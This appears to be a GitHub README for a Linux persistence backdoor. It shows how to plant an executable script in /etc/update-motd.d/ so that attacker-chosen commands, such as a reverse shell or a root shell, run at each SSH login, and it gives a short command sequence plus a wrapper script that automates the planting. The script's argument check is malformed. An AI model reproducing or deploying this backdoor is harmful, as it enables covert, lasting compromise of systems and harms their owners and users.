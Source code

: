 # motd Backdoor

#### motd (message of he day) is printed every time we login via SSH service.

we can contaminate the motd file with a reverse shell or a local shell command

```
printf "#!/bin/bash\n$1" | sudo tee /etc/update-motd.d/na
sudo chmod +x /etc/update-motd.d/na
sudo /etc/init.d/ssh start
```

now we can SSH into the machine and get a root shell.

### script:

```
#!/bin/bash

if [ $1 -z ]
then
        echo "$0 <shell commands or binary file path>"
        exit 1
fi

printf "#!/bin/bash\n$1" | sudo tee /etc/update-motd.d/na

sudo chmod +x /etc/update-motd.d/na

sudo /etc/init.d/ssh start

echo "[+] Now try to ssh..."
```
